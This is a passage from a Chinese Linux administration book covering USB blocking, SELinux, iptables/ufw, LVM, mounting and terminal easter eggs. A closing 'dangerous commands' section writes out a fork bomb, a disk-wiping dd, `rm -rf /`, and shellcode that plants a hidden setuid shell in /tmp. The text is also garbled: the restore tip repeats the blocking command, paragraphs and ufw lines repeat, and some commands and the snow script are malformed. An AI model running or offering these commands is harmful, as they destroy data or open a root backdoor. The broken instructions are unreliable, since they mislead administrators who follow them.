使用 `lsmod` 命令显示所有加载的内核驱动程序，过滤出 USB 存储：`sudo lsmod | grep usb_storage`

**注意：** *要验证上一步操作是否成功，请再次运行之前的命令，确认该行不再出现。*

你应该看到 `sub_storage` 模块正在被 `UAS` 模块使用。现在你需要从内核中卸载两个 USB 存储模块。

`sudo modprobe -r usb_storage`

`sudo modprobe -r uas`

你已经阻止了 USB 存储模块在未来重启后加载到内核。要实现这一点，请将 `usb-storage.ko.xz` 模块重命名为 `usb-storage.ko.xz.block`。


`cd /lib/modules/`uname -r`/kernel/drivers/usb/storage/`

`sudo mv usb-storage.ko usb-storage.ko.block`（基于 Debian 的系统）

-或- `sudo mv usb-storage.ko.xz usb-storage.ko.xz.block`（基于 Red Hat 的系统）

**提示：** *要将系统功能恢复到原始状态，你只需要将* `usb-storage.ko` 文件重命名回原始名称（然后重启系统），输入：* `cd /lib/modules/`uname -r`/kernel/drivers/usb/storage/`

`sudo mv usb-storage.ko usb-storage.ko.block`（基于 Debian 的系统）

-或- `sudo mv usb-storage.ko.xz usb-storage.ko.xz.block`（基于 Red Hat 的系统）

**注意：** *此方法仅适用于当前运行的内核模块。如果系统上还有其他可用的内核，你将需要修改每个内核模块目录的版本路径并重命名文件。*

## 启用 SELinux

安全增强型 Linux (`SELinux`) 是内核提供的一种强制性访问控制安全机制。禁用 `SELinux` 意味着从系统中移除安全机制。

如果你的系统连接到互联网上并可供公众访问，建议你启用此功能。

要检查 `SELinux` 是否启用，输入：

```
sudo sestatus
```

-或-

```
getenforce
```

如果已禁用要启用此功能，输入：`sudo setenforce enforcing`。

**注意：** *它也可以通过* `etc/selinux/config` *文件进行管理（启用或禁用）。*

*`SELinux` 提供三种基本运行模式，它们是：*

***Enforcing（强制）**：这是默认模式，会在机器上启用并强制 `SELinux` 安全策略。

***Permissive（宽容）**：在此模式下，`SELinux` 不会对系统强制执行安全策略，仅发出警告并记录操作。这种模式在排查 `SELinux` 相关问题时非常有用。

***Disabled（禁用）**：`SELinux` 关闭。*

## 监控用户活动

为了防止外部（即恶意用户）或内部（即你的员工）威胁，你能够监控用户活动。恶意用户（或外部攻击者）是最容易理解的威胁。而内部威胁最难防范，因为这通常是一个受组织信任的人。

有两个工具可以监控用户活动：`psacct`（适用于基于 Red Hat 的系统）或 `acct`（适用于基于 Debian 的系统），对于监控系统上的用户活动和进程非常有用。这些工具在系统后台运行，跟踪系统上的每个用户活动以及 Apache、MySQL、SSH、FTP 等服务消耗的资源。

要安装这些工具，请使用以下命令之一。基于 Red Hat 的系统：

```
sudo yum install psacct
```

基于 Debain 的系统：

```
sudo apt-get install acct
```

### 监控日志文件

保护日志对于帮助你排查系统或应用程序的问题至关重要。它们还可以告诉你入侵者是否攻击了你的系统，并可能告诉你他们是如何入侵的。这就是为什么你想要防止入侵者轻易地删除或修改本地日志文件。

为了帮助防止入侵者轻易修改或破坏本地日志，以下是常见的 Linux 默认日志文件名及其用途。

- `/var/log/auth.log`: 身份验证日志。
- `/var/log/boot.log`: 系统启动日志。
- `/var/log/cron.log`: Cron 日志（定时 任务）。
- `/var/log/kern.log`: 内核日志。
- `/var/log/message`: 系统日志（当前系统活动）。
- `/var/log/mysqld.log`: MySQL 数据库服务器日志文件。
- `/var/log/secure`: 身份验证日志。
- `/var/log/utmp` 或 `/var/log/wtmp`: 登录日志文件。
- `/var/log/yum.log`: Yum 日志文件。

**注意：** *这些日志的可用性和位置会根据发行版以及安装的应用和服务的版本而异。可能还有其他你应该监控的日志，这可能需要*

## 忽略 ICMP 或广播请求

你可以让 Linux 忽略 ICMP 或广播请求。

准确的时间对于现代加密非常重要。如果系统没有准确的时间，某些功能可能无法工作。

Systemd 提供了 `systemd-timescd` 客户端，它可以查询远程服务器并调整系统时间。在以下文件中配置：`/etc/systemd/timesyncd.conf`。

**注意：** *大多数发行版提供了指向时间服务器的默认配置。*

## 网络

可靠且安全的 DNS 对网络安全至关重要。如果你在组织外部使用公共 DNS，请使用信任的 DNS，例如：

Google Public DNS（将 DNS 设置为 8.8.8.8 和 8.8.4.4）-或-

1.1.1.1（将 DNS 设置为 1.1.1.1 和 1.0.0.1）[Cloudflare 与 APNIC 的合作伙伴关系]。

我将说明有一些命令行和图形界面（GUI）应用程序可以让防火墙的管理变得更容易。尽管如此，我强烈建议你先学习如何从命令行进行操作，这会让你对如何管理此服务有更深入的理解。

**注意：** *`iptables` 实用用于 IPv4，而 `ip6tables` 实用用于 IPv6。*

有三条不同的 `iptables` 链：`input`（输入）、`forward`（转发）和 `output`（输出）。

`input` 链控制入站网络连接（例如 ssh 连接）的行为。`iptables` 将尝试将 IP 地址、协议和端口与 `input` 链中的规则进行匹配。然后决定是允许还是拒绝该连接。

`forward` 链控制并非用于本地系统而是将转发到另一个系统的出站网络数据。除非你的系统提供了某种进行路由、NAT（网络地址转换）或类似使用转发的某种服务，否则你可能根本不会用到此功能。

**提示：** *若要判断你的系统是否开启了 IP 转发，请使用以下命令并查看策略是否为接受数据包，输入：* `sudo iptables -L -v`

`output` 链控制出站网络连接（例如 ping 命令）。`iptables` 将尝试将 IP 地址、协议和端口与 `output` 链中的规则进行匹配。然后决定是允许还是拒绝该连接。

**注意：** *在使用任何防火墙锁定系统时，必须记住有若干协议需要双向通信。因此，记住你可能需要同时创建输入和输出规则很重要。*

`iptables` 对数据包有三种不同的响应：`accept`（接受）、`drop`（丢弃）和 `reject`（拒绝）。`accept` 响应接受连接。`drop` 响应则像没收到过数据包一样直接将其丢弃。最后是 `reject` 响应，它会向请求系统返回一个错误信息。

`iptables` 处理规则的方式是从列表顶部开始逐条检查每条规则，直到找到与数据包匹配的规则。在编写规则时，你需要考虑到这一点。需要注意的是，`-A` 将规则追加到现有链中。`-I [chain] [number]` 允许你指定规则应该所在的列表行号。

若要阻止来自单个 IP 地址的所有连接，输入：`sudo iptables -A INPUT -s 192.168.0.100 -j DROP`

使用标准斜杠表示法或子掩码阻止来自 IP 范围的所有连接，输入：`sudo iptables -A INPUT -s 192.168.0.0/24 -j DROP` -或- `sudo iptables -A INPUT -s 192.168.0.0/255.255.255.0 -j DROP`

若要阻止来自单个 IP 地址的所有连接，输入：`sudo iptables -A INPUT -s 192.168.0.100 -j DROP`

要从特定 IP 地址丢弃特定协议或端口号，输入：`sudo iptables -A INPUT -p tcp --dport ssh -s 192.168.0.100 -j DROP`

要从所有 IP 地址丢弃特定协议或端口号，输入：`sudo iptables -A INPUT -p tcp --dport ssh -j DROP`

要插入一条规则，输入：`sudo iptables -I INPUT 1 -s 192.168.0.100 -j ACCEPT`

要替换一条规则，输入：`sudo iptables -R INPUT 1 -s 192.168.0.100 -j ACCEPT`

**注意：** *在远程操作此服务时，请小心，因为你可能会在玩弄此功能时把自己锁定在远程系统之外。一旦你把自己锁在外，你需要获得对系统的某种终端访问权限来修复问题。*


如本节早期所述，某些应用程序和服务仅需要单向通信。正如前面提到的，记住你可能需要同时创建输入和输出规则很重要。

正如前面，输入：`sudo iptables -I INPUT 1 -s 192.168.0.100 -j ACCEPT` 插入一条规则，输入：`sudo iptables -I INPUT 1 -s 192.168.0.100 -j ACCEPT`

替换一条规则，输入：`sudo iptables -R INPUT 1 -s 192.168.0.100 -j ACCEPT`

**注意：** 在远程操作此服务时，请小心，因为你可能会在玩弄此功能时把自己锁定在远程系统之外。一旦你把自己锁在外，你需要获得对系统的某种终端访问权限来修复问题。

### Linux 存储层级

Linux 了一了一套强大的工具来管理存储设备。本节提供了这些命令的高级概述，以及存储如何被文件系统使用的摘要。

- 第 4 层：文件和目录
- 第 3 层：文件系统（例如 EXT4 等）
- 第 2 层：分区（例如 MBR 或 GPT）[可选：抽象子层，如 RAID、LUN 等]
- 第 1 层：存储（物理或虚拟）
- 第 0 层：基础设施（例如硬件、虚拟机、云、等）

第一个核心概念是“块存储”，或在内核中被称为“块设备”。块设备可以是传统的旋转硬盘（HDD），也可以是固态存储设备如 SSD 或 USB 闪存驱动。内核以固定大小的存储单元（块）在这些设备上存储和检索数据。这只是对连接到计算机的传统存储的一种另一种思考方式。当文件系统进行分区时，它会将可用存储分成较小的单元。假设你有一个 1TB 的存储设备。与其将所有内容都放在 1TB 驱动器中，不如将本地存储分成两个 512GB 分区，并让它们在文件系统中看起来像两个不同的磁盘。这允许你从逻辑上分离数据。

### 防火墙规则导出导入

导出防火墙规则，类型：`iptables-save`

导入防火墙规则，类型：`iptables-restore`

**注意：** IPv6 的等效命令是 `ip6tables-save` 和 `ip6tables-restore`。

当你完成对防火墙的操作后，使用 6 导出。**提示：** 为了清空防火墙，可以使用：`iptables -F`

某些工具可以让防火墙的管理更简单。`ufw` 允许 `22`。`ufw` 提供了防火墙的某些功能。例如，`ufw` 允许。

检查防火墙状态，类型：`ufw status`

启用/禁用防火墙，类型：`ufw enable`

包含以下标志的数据包（圣诞树攻击），类型：`sudo iptables -A INPUT -p tcp -m tcp --tcp-flags ALL,PSH,URG -j DROP`

包含以下标志的数据包（SYN 和 FIN 攻击），类型：`sudo iptables -A INPUT -p tcp -m tcp --tcp-flags SYN,FIN -j DROP`

禁用防火墙，类型：`ufw disable`

删除防火墙，类型：`ufw delete`

允许防火墙，类型：`ufw allow`

拒绝防火墙，类型：`ufw deny`

限制防火墙，类型：`ufw limit`

启用防火墙，类型：`ufw enable`

禁用防火墙，类型：`ufw disable`

重置防火墙，类型：`ufw reset`

查看防火墙状态，类型：`ufw status`

查看防火墙状态，类型：`ufw status numbered`

允许特定规则，类型：`ufw allow ...`

拒绝特定规则，类型：`ufw deny ...`

允许特定端口，类型：`ufw allow port`

允许服务，类型：`ufw allow`

删除特定规则，类型：`ufw delete ...`

删除特定端口，类型：`ufw delete port`

允许特定 IP，类型：`ufw allow from ...`


## UFW 规则类型

拒绝特定 IP，类型：`ufw deny from ...`

允许特定段，类型：`ufw allow from ...`

拒绝特定段，类型：`ufw deny from ...`

允许特定协议，类型：`ufw allow proto ...`

拒绝特定协议，类型：`ufw deny proto ...`

允许特定范围，类型：`ufw allow to ...`

拒绝特定范围，类型：`ufw deny to ...`

允许特定应用，类型：`ufw allow app ...`

拒绝特定应用，类型：`ufw deny app ...`

允许特定输入，类型：`ufw allow in ...`

拒绝特定输入，类型：`ufw deny in ...`

允许特定输出，类型：`ufw allow out ...`

拒绝特定输出，类型：`ufw deny out ...`

允许特定规则，类型：`ufw allow any ...`

拒绝特定规则，类型：`ufw deny any ...`

允许特定接口，类型：`ufw allow on ...`

拒绝特定接口，类型：`ufw deny on ...`

允许特定规则，类型：`ufw allow any ...`

拒绝特定规则，类型：`ufw deny any ...`

允许特定组合，类型：`ufw allow ... ...`

拒绝特定组合，类型：`ufw deny ... ...`

允许特定组合，类型：`ufw allow ... ...`

拒绝特定组合，类型：`ufw deny ... ...`

允许特定组合，类型：`ufw allow ... ...`

拒绝特定组合，类型：`ufw deny ... ...`

允许特定组合，类型：`ufw allow ... ...`

拒绝特定组合，类型：`ufw deny ... ...`

## 分区表

有一种较旧的版本，由于年代久远具有现代局限性，并提供对旧文件系统的向后兼容。有一个较新的版本克服了前者的技术局限性，但提供了对新文件系统的向前兼容性。

`MBR`（主引导记录）已经存在几十年，仍然被旧应用程序使用，但它只允许四个主分区，且分区大小不能超过2TB。可以将一个主分区细分为多个较小的逻辑分区，称为扩展分区。

`GPT`（GUID 分区表）是一种更现代的标准，克服了 `MBR` 的局限性。尽管，它需要较新的硬件和固件来支持这些功能。大多数现代硬件在使用上应该没有问题。

在大多数情况下，如果你必须在这两种分区表类型之间进行选择，由于其向前支持，`GPT` 将是你的更好选择。除非你有需要支持不兼容新文件系统的旧应用程序或硬件。

## 文件系统

一旦存储设备被正确分区，就需要对其进行格式化，文件系统才能实际使用它。格式化为存储设备存储数据而对分区区域做好准备。如果不进行格式化，你就无法在设备上存储数据。

Linux 支持多种不同的文件系统，每种文件系统都有其优缺点，包括对操作系统的支持。在最高层，大多数文件系统的运行方式相同（例如管理文件），它们在低层执行操作的方式上与众不同。例如，用于执行维护操作的命令和相关机制可能不同。

目前最流行的 Linux 文件系统是：

- `BTRFS`：是一种较的文件系统，利用了写复制（copy-on-write）技术。这种架构允许在文件系统层处理卷管理功能。这允许如快照和卷克隆等功能。该文件系统的问题是缺乏成熟。一些管理员正在等待问题修复后才投入生产工作负载。
- `EXT4`：这是文件系统的第四次扩展，在格式化卷时往往是默认选择。`EXT4` 是一种成熟的日志文件系统，提供了对遗留系统的向后兼容。它具有非常广泛的工具支持，并在可靠性方面记录良好。
- `XFS`：专为处理大数据文件时的性能而设计。在处理大型存储设备时它具有更好的吞吐量特性。它还支持快照等功能。与 `EXT4` 不同，它使用元数据日志而不是对元数据和数据都进行记录。`XFS` 提供了极佳的性能，但如果发生断电，对数据损坏非常敏感。
- `ZFS`：利用写复制文件系统并具有成熟且健壮的卷管理器。它支持数据完整性功能，可以处理大文件，并包括快照、克隆以及用于冗余和性能的软件 RAID 支持。`ZFS` 因为许可问题具有争议性的历史。它在不同发行版之间的支持也参不齐。

## 管理存储设备

如前所述，所有设备都被视为文件。所有存储设备都表示为 `/dev` 目录下的文件。这些文件名通常以 SD 或 HD 开头，后跟另一个字母。例如，一个硬盘名称可能是 `/dev/hda` 或 `/dev/hdb`。

分区也被视为文件，并存储在 `/dev` 目录中。每个带有分区的存储设备会在设备名称末尾添加一个数字。例如，分区 1 的设备名称将为 `/dev/hda1`，分区 2 的设备名称将为 `/dev/hda2`。

**注意** Linux 内核在每次启动时决定哪个设备获得哪个名称。这可能导致设备名称发生变化的困惑场景。

文件系统层次结构标准（FHS）建议使用 `/mnt` 子目录或其下的另一个目录用于临时挂载的文件系统。关于在哪里挂载更持久的存储没有建议，但可以使用 `/mnt` 子目录。

## 永久挂载点

Linux 使用名为 `/etc/fstab`（文件系统表）的文件加载文件系统，此文件告诉操作系统在启动过程中加载哪个文件系统。任何在文件中没有条目的文件系统都不会自动挂载。

`/etc/fstab` 只是一个基础文本文件。每行代表一个要在启动时挂载的不同文件系统。每行的格式为块设备名称、关联的挂载点、块设备使用的文件系统类型、挂载选项以及任何附加信息。

**注意：** 名为 ".mount" 的单元配置包含由 systemd 进程控制的文件系统挂载点信息。

## 逻辑卷管理

逻辑卷管理（或 `LVM`）允许你抽象几个不同块存储设备的物理特性，使其看起来像一个单一的更大的块设备。这样就可以将大硬盘分区为较小的逻辑卷。

`LVM` 也用于克服传统存储分区的局限性。例如，`LVM` 卷可以扩展、跨越多个设备、快照分区以及在驱动器之间移动卷。

更多信息，类型：

```
man lvm
```

### LVM 命令

以下命令实现了核心 `LVM` 功能。

- `lvchange`：更改逻辑卷的属性。
- `lvconvert`：将逻辑卷从镜像或快照转换。
- `lvcreate`：在现有的卷组中创建逻辑卷。
- `lvdisplay`：显示逻辑卷的属性。
- `lvextend`：扩展逻辑卷的大小。
- `lvmchange`：更改卷管理器的属性。
- `lvmconfig`：显示加载 `lvm.conf` 及任何其他配置文件后的配置信息。
- `lvmdiskscan`：扫描 `LVM` 可见的所有设备。
- `lvmdump`：出于诊断目的创建 `LVM2` 信息转储。
- `lvreduce`：缩小逻辑卷的大小。
- `lvremove`：删除逻辑卷。
- `lvrename`：重命名逻辑卷。
- `lvresize`：调整逻辑卷的大小。
- `lvs`：报告逻辑卷的信息。
- `lvscan`：扫描（所有磁盘）获取逻辑卷。
- `pvchange`：更改物理卷的属性。
- `pvck`：检查物理卷元数据。
- `pvcreate`：初始化本地存储或分区供 `LVM` 使用。
- `pvdisplay`：显示物理卷的属性。
- `pvmove`：移动物理范围。
- `pvremove`：删除物理卷。
- `pvresize`：调整 `LVM` 使用的本地存储或分区。
- `pvs`：报告物理卷的信息。
- `pvscan`：扫描所有磁盘获取物理卷。
- `vgcfgbackup`：备份卷组描述区域。
- `vgcfgrestore`：恢复卷组描述区域。
- `vgchange`：更改卷组的属性。
- `vgck`：检查卷组元数据。
- `vgconvert`：转换卷组元数据格式。
- `vgcreate`：创建卷组。
- `vgdisplay`：显示卷组的属性。
- `vgexport`：使卷组对系统未知。
- `vgextend`：向卷组添加物理卷。
- `vgimport`：使导出的卷组对系统已知。
- `vgimportclone`：导入并重命名复制的卷组（例如硬件快照）。
- `vgmerge`：合并两个卷组。
- `vgmknodes`：重建卷组目录和逻辑卷特殊文件。
- `vgreduce`：通过移除一个物理卷缩小卷组。
- `vgremove`：删除卷组。
- `vgrename`：重命名卷组。
- `vgs`：报告卷组的信息。
- `vgscan`：扫描所有磁盘获取卷组并重建缓存。
- `vgsplit`：将卷组拆分为两个，通过移动整个物理卷将逻辑卷从一个卷组移动到另一个。

## 准备第二个驱动器

**前提条件：** *本节要求你拥有系统的 root 权限以便安装服务并对操作系统进行更改。*

如书中前面提到的，在 Linux（以及其他 Unix 类操作系统）中，无论涉及多少个物理存储设备，整个系统都由单一的树结构表示。当驱动器或分区上的文件系统挂载到系统上时，它必须加入现有的树中。挂载（Mounting）是将格式化后的分区或驱动器连接到 Linux 文件系统中的某个目录的过程。随后就可以从该目录访问驱动器的内容。

按照以下步骤挂载驱动器：

要显示可用磁盘，输入：`ls -l /dev/sd*`

**注意：** *devsda* 是第一个物理磁盘，*devsda1* 是分区 1；*devsdb* 是第二个物理磁盘，而 *devsdb1* 是分区 1。


**提示：** 如果你尝试挂载的本地存储需要格式化，且它已经挂载，则需要先将其卸载，输入：

`sudo umount -f [mount_point]`

（如果你不知道挂载点的名称，要查看本地存储和挂载点的列表，输入：`mount`）

准备（分区并格式化）挂载点，输入：`sudo fdisk /dev/sdb`

（输入以下选项：`n` 新分区, `p` 主分区, `1`, `[enter]`, `[enter]`, `w`）。

**提示：** 如果你需要将格式化分区整合到脚本中以自动输入字母，输入：

`echo -e "n\np\n1\n\n\nw\n" | sudo fdisk /dev/sdb`

在新磁盘上创建文件系统，输入：`sudo s/mkfs.ext4 -l /opt/app_name /dev/sdb1`

创建作为挂载点的目录，输入：`sudo mkdir /opt/app_name`

更改挂载点的权限，输入：`sudo chmod 755 /opt/app_name`

将驱动器映射到挂载点，输入：

`sudo mount /dev/sdb1 /opt/app_name`

切换到挂载点目录，输入：

`cd /opt/app_name`

从驱动器获取 UUID（通用唯一标识符）：`sudo blkid`

备份并更新 `/etc/fstab` 文件，输入：`sudo cp /etc/fstab /etc/fstab.bak`

**注意：** `fstab` 文件被文件系统用于在启动过程中自动加载挂载点。

编辑 `/etc/fstab`，输入：`sudo nano /etc/fstab`

添加以下行：

`UUID="<来自驱动器的 UUID>" /app_name ext4 defaults 0 2`

（要保存文件并退出编辑器，按 `Ctrl+X`，输入：`y` 并按回车）

显示所有挂载点，输入：

`mount -a`

## 创建可启动的 USB 驱动器

**概述：** 学习如何创建一个 Linux 发行版的可启动版本，并将其安装在 USB 闪存上。通过此驱动器，你可以在不修改物理计算机的情况下启动进入该系统，也可以将其用于该系统的修复和诊断。

**前提条件：** 本节要求你拥有系统的 root 权限以便安装服务并对操作系统进行更改。

- 一个 8GB 的 USB 闪存盘（容量要求取决于你想要使用的发行版）
- 已下载的 Linux 发行版

可以创建一个可以安装在 USB 闪存盘上的 Linux 操作系统可启动版本。这允许你在本地系统上加载一个 Linux 操作系统版本。这有许多优势，例如测试某个发行版看你是否喜欢，或者对损坏的操作系统版本进行本地诊断或修复，或者尝试恢复本地存储设备上失败的文件系统。

## 创建可启动的闪存盘

下载你想要从其启动的 Linux 发行版的 USB 可启动版本。

**USB 可启动 Linux 发行版**

- **Puppy Linux** - 一个极微型的 Linux 发行版。具有极小的存储空间和硬件要求。（更多信息：http://puppylinux.org/）
- **Slax** - 像 Puppy Linux 一样，这是一个极微型的 Linux 发行版。具有极小的存储空间和硬件要求。（更多信息：https://www.slax.org/）
- **Kali Linux** - 此版本的 Linux 是为数据安全专家设计的，它包含了许多该领域的特定工具。（更多信息：https://www.kali.org/）
- **Knoppix** - 最早流行的 Live CD 发行版之一。该发行版包含一千多个软件包。（更多信息：http://knoppix.net/）

将 USB 闪存盘插入你的计算机。

**警告：** USB 驱动器上的所有数据将被破坏。在继续之前请备份任何重要数据

查看所有块设备并找到 USB 的名称：`lsblk`

**警告：** USB 驱动器上的所有数据将被破坏。在继续之前请备份任何重要数据

## 有趣和愚蠢的事

**概述：** Linux 有几个隐藏的彩蛋。对于那些不熟悉这个术语的人来说，它基本上是一些隐藏的功能或技巧。

**前提条件：** 本节要求你拥有系统的 root 权限以便安装服务并对操作系统进行更改。

`apt-get` 命令有一个小小的隐藏彩蛋，它是一个基于文本的牛，要看到它输入：`sudo apt-get moo`。查看任何命令的彩色输出，输入：`cal 2020 | lolcat`

`apt-get` 命令有一个小小的隐藏彩蛋，它是一个基于文本的牛，要看到它输入：`sudo apt-get moo`。查看任何命令的彩色输出，输入：`cal 2020 | lolcat`

`apt-get` 命令有一个小小的隐藏彩蛋，它是一个基于文本的牛，要看到它输入：`sudo apt-get moo`。查看任何命令的彩色输出，输入：`cal 2020 | lolcat`

`apt-get` 命令有一个小小的隐藏彩蛋，它是一个基于文本的牛，要看到它输入：`sudo apt-get moo`。查看任何命令的彩色输出，输入：`cal 2020 | lolcat`

你的命运已经注定，输入：

```
fortune
```

如果此包尚未安装，请输入：`sudo apt-get install fortune`

让奶牛来预测你的命运，输入：

```
fortune | cowsay
```

如果此包尚未安装，请输入：`sudo apt-get install cowsay`

`cowsay` 支持多种不同的字符，要查看所有字符，请输入：

```
cowsay -l
```

要使用这些字符，输入：

```
fortune | cowsay -f daemon
```

**提示：** 为 `cowsay` 命令添加一些颜色，输入：`cowsay fortune | toilet --gay -f term` 一头正对着幸运运饼思考的死奶牛，输入：`fortune -sca | cowsay -dW 45`

**注意：** `cowsay` 命令的 GUI 版本（需要 X-Windows），输入：`xcowsay "****HelloWorld****"`

观看一个跳迪斯科的鹦鹉头，输入：`curl parrot.live`

观看原版《星球大战》电影的文本版（这非常老了，但仍然有效），输入：`telnet towel.blinkenlights.nl`

**注意：** 完成后按下 `Ctrl+\]`，在提示符处输入 "close"

在桌面上显示一对跟随鼠标光标的眼睛，输入：`xeyes`

**注意：** 这是一个 GUI 应用，需要 X-Windows。

有一个名为 `rig` 随机身份生成器的命令，输入：`rig`

如果此包尚未安装，请输入：`sudo apt-get install rig`

`bb` 是一个用于文本终端的高质量视听演示，输入：`bb`

如果此包尚未安装，请输入：`sudo apt-get install bb`

`aafire` 是一个在终端中渲染燃烧火苗的 asciiart 动画，输入：`aafire`

如果此包尚未安装，请输入：`sudo apt-get install libaa-bin`

模拟电影中的屏幕打字，输入：`echo "simulate on-screen typing like the movies" | pv -qL 10`

要模拟一个人，输入：`echo -e "You are a jerk\b\b\b\bwful person" | pv -qL $[10+(-2+ RANDOM%5)]`

如果此包尚未安装，请输入：`sudo apt-get install pv`

`calendar` 命令显示重要日期的列表。它还包含一个特殊日历列表，例如《环王》，输入：`calendar -f /usr/share/calendar/calendar.lotr -A 365`

**提示：** 还有其他几个日历可用：`calendar -f /usr/share/calendar/calendar.pagan -A 365`, `calendar -f /usr/share/calendar/calendar.music -A 365`, `calendar -f /usr/share/calendar/calendar.computer -A 365`, `calendar -f /usr/share/calendar/calendar.history -A 365`

`vim` 编辑器包含了一些小彩蛋，运行编辑器后尝试使用以下命令：对于道格拉斯·亚当斯的粉丝，输入：`:help 42`

对于蒙蒂·派森的粉丝，输入：`:Ni!`

**注意：** 要退出 `vim`，按下 `ESC` 键，然后（按下冒号键）`:q!` 如果你修改了缓冲区，请检查屏幕底部是否有任何问题。

`emacs` 编辑器包含了一些小技巧，启动应用后，按下 `Esc` 然后 `X`。在 `M-x` 提示符处，输入以下游戏之一并按回车：`snake` - 这是一个小型吃蛇类游戏，使用方向键吃掉掉落的区块，并尝试不要吃到自己。`tetris` - 这是一个小型俄罗斯方块类游戏，使用方向键并尝试通过创建方块行来填满屏幕。

如果此包尚未安装，请输入：`sudo apt-get install emacs`


注意：要退出 emacs，按下 Ctrl+X 和 Ctrl+C，如果你修改了缓冲区，请检查屏幕底部是否有任何问题。

## 文本类游戏

以下是一些可以在 Linux 控制台中运行的文本类游戏。对某些人来说这可能很老派，但它也展示了命令行的灵活性。

bastet（或称 Bastard Tetris）是俄罗斯方块的经典版本，使用 ASCII 编写，可以在命令行中玩。

如果此包尚未安装，请输入：`sudo apt-get install bastet`

dwarf fortress 是一个基于文本的幻想游戏，使用 ASCII 艺术图形化表示游戏环境。要安装游戏，请访问以下网站并按照安装说明 http://www.bay12games.com/dwarves/

freesweep 是一个扫雷游戏的克隆，使用 ASCII 图形，可以在命令行中玩。

如果此包尚未安装，请输入：`sudo apt-get install freesweep`

nethack 是一个单玩家 Rogue 类地城探索游戏。要安装游戏，请访问以下网站并按照安装说明 http://nethack.org/

## 高级趣味玩法

此部分需要比前面的章节更多的技巧和知识。尽管如此，如果你感兴趣，这不应该阻止你尝试这些内容。

### 为 Cowsay 添加新字符

`cowsay` 命令带有一组默认字符（例如 daemon, tux 等），这些存储在所谓的 `.COW` 文件中。你可以通过添加一组新的 COW 文件来扩展可用字符的数量。按照说明下载并安装它们。

```bash
# 切换到主目录
cd ~
# 从 github 下载文件
git clone https://github.com/example/cowsay-files # 将 .COW 文件移动到正确位置
sudo mv ~/cowsay-files/*.cow /usr/share/cowsay/
# 显示其中一个新的 cowsay
```

提示：要显示所有可用的 cowsay 字符，输入：`cowsay -l | sed '1d;s/ //' | while read f; do cowsay -f $f; done`

### 扩展 Fortune 引言（查克·诺里斯）

可以创建一个供 `fortune` 命令调用的自定义引言数据库。首先，你需要将引言放入文本文件中，每条引言之间用行（"%"）作为分隔符分开。之后，它必须被转换为一个供 `fortune` 命令使用的特殊二进制文件。

```bash
# 切换到主目录
cd ~
# 从 GitHub 下载文件，它应该名为 chucknorris
wget https://raw.githubusercontent.com/robbyrussell/oh-my-zsh/master/plugins/chucknorris/fortunes/chucknorris # 创建一个 fortune 命令使用的随机字符串文件
cp chucknorris /usr/share/games/fortunes # 测试新的 fortune
fortune | cowsay
```

### 脚本：下雪了 (Let It Snow)

此脚本需要复制到文件中并赋予执行权限才能运行。使用以下命令为你创建脚本文件、赋予执行权限并打开它：

```bash
echo "#!/bin/bash" > snow.sh
chmod+x snow.sh
nano snow.sh
```

将以下内容复制到文件中：

```bash
#!/bin/bash
LINES=$(tput lines)
COLUMNS=$(tput cols)
declare -A snowflakes
declare -A lastflakes
clear
function move_flake() {
  i="$1"
  if [ "${snowflakes[$i]}" = "" ] || [ "${snowflakes[$i]}" = "$LINES" ]; then
    snowflakes[$i]=0
  else
    if [ "${lastflakes[$i]}" != "" ]; then printf "\033[$s;%sH\033[1H" "${lastflakes[$i]}" $i; fi
  fi
  printf "\033[$s;%sH\033[1H" ${snowflakes[$i]} $i
  lastflakes[$i]=${snowflakes[$i]}
  snowflakes[$i]=$((snowflakes[$i]}+1))
}
while :
do
  i=$((RANDOM % $COLUMNS))
  move_flake $i
  for x in "${!lastflakes[@]}"
  do
    move_flake "$x"
  done
  # 如果太快可以使用这一行来减速
  # sleep 0.1
done
```

运行脚本输入：

`./snow.sh`

## 实验性趣味

此部分包含实验性代码，你可以根据自己的风险尝试。这些代码可能有效也可能无效，我包含它们仅供参考。

如果你想测试任何这些命令，请在一个可以销毁的非生产虚拟机上进行。如果你很聪明，在运行这些命令之前对虚拟机快照是明智的，这样你可以返回之前的状态。

警告：不要在生产服务器上尝试以下任何内容。

经典的炸弹（这是一个可以让系统崩溃的实用笑话），输入：`:(){ :|:& };`

## 危险命令

以下是你绝对不应该在系统中运行的命令。它们会破坏数据。我提供它们仅供信息和参考。

警告：不要在生产服务器上尝试。

通过向存储设备写入随机数据（即 `/dev/random` ）来破坏存储设备上的数据。

`dd if=/dev/random of=/dev/sda`

删除你系统上的所有文件。

`rm -rf / --no-preserve-root`

这是 `rm -rf ~ /` 命令的混淆版本（即伪装版本）。

这可能被恶意人员或团体用于诱导你破坏自己的数据。

`char esp[] __attribute__ ((section(".text"))) /* e.s.p release */`

= "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"

"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"

"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"

"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"

"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"

"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"

"\x6e\x2f\x73\x68\x00\x2d\x63\x00"

"cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;"

## 致谢

我想特别感谢我的妻子在我写这本书期间给予的所有支持。感谢你为我所的一切，你的存在让我的生活变得更好。

## 关于作者

我职业是一名系统工程师，拥有 20 多年利用企业级技术构建弹性系统架构的经验。我的专业背景涵盖服务器、云基础设施、网络、SAN、虚拟化、Web 技术和数据库。我在应用程序和服务器性能调优、数据安全和系统自动化方面也拥有专业知识。


我的个人网站和博客是：

[The Jason Chronicles](http://www.jasonsavitt.info/)

## 我出版的其他书籍

- **避免信息安全不安全：对抗现代网络威胁（2011年版）** ISBN: 9781458029201

  描述：如何保护你自己和家人免受身份盗窃、个人及隐私信息丢失以及其他类型的网络威胁。

- **Windows 8.1 揭秘 – 技巧与技巧** ISBN: 9781310529146

  描述：本书介绍了微软的 Windows 8.1 操作系统。适用于所有计算机知识水平的读者，包含了关于如何充分利用该系统的技巧和技巧。

- **Windows 8.1 揭秘 – 性能** ISBN: 9781310737435

  描述：本书介绍了如何使用微软 Windows 8.1 操作系统进行计算机性能调优。适用于所有计算机知识水平的读者，包含了关于如何充分发挥操作系统和计算机硬件性能的技巧和技巧。

- **高级用户指南：Windows 10 秘籍（第一版）**

